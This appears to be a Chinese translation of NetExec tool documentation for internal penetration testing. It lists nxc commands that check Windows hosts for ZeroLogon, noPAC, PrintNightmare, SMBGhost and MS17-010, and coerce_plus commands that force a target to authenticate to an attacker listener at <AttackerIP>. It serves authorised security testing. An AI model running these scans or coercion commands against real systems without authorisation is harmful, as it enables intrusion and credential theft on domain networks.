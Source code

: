 ```yaml
---
description: 检查主机是否存在漏洞
---
```


# 扫描漏洞

## 扫描漏洞

当你开始内部渗透测试时，这些是你应该首先尝试的模块：

#### ZeroLogon

```
nxc smb <ip> -u '' -p '' -M zerologon
```

#### noPAC

```
nxc smb <ip> -u 'user' -p 'pass' -M nopac
```

{% hint style="warning" %}
noPAC 漏洞检查需要凭证。
{% endhint %}

#### PrintNightmare

```
nxc smb <ip> -u '' -p '' -M printnightmare
```

#### SMBGhost

```
nxc smb <ip> -u '' -p '' -M smbghost
```

#### MS17-010（未在实验环境外测试）

```
nxc smb <ip> -u '' -p '' -M ms17-010
```

或者，一次性尝试所有模块！只需列出每个模块：`-M zerologon -M printnightmare`

## 扫描强制认证漏洞

你可以使用 coerce_plus 模块检查强制认证漏洞，如 PetitPotam、DFSCoerce、PrinterBug、MSEven 和 ShadowCoerce。你也可以使用凭证来检查这些漏洞。默认情况下，LISTENER ip 将设置为 localhost，因此网络上不会出现流量。

```
nxc smb <ip> -u '' -p '' -M coerce_plus
```

如果发现漏洞，你可以设置 LISTENER ip 来强制连接。

```
nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP>
```

要一次性运行所有利用方法，添加 ALWAYS=true 选项，否则如果底层 RPC 连接报告成功强制认证，它将停止。

```
nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP> ALWAYS=true
```

你也可以通过指定方法来检查特定的强制认证方法：

```
nxc smb <ip> -u '' -p '' -M coerce_plus -o METHOD=PetitPotam
```

{% hint style="success" %}
除了使用 `METHOD` 选项，你还可以使用其简写形式 `M`。同样，参数 `LISTENER` 可以缩写为 `L`。

这也适用于指定方法时的漏洞名称。

M=p // 无效，因为 petitpotam 和 printerbug 都以 'p' 开头，所以模块会报错

M=pr // 匹配 printerbug

M=pe // 匹配 petitpotam

M=dfs // 匹配 dfscoerce
{% endhint %}

通过 `nxc <protocol> -L` 查看还有哪些可用模块
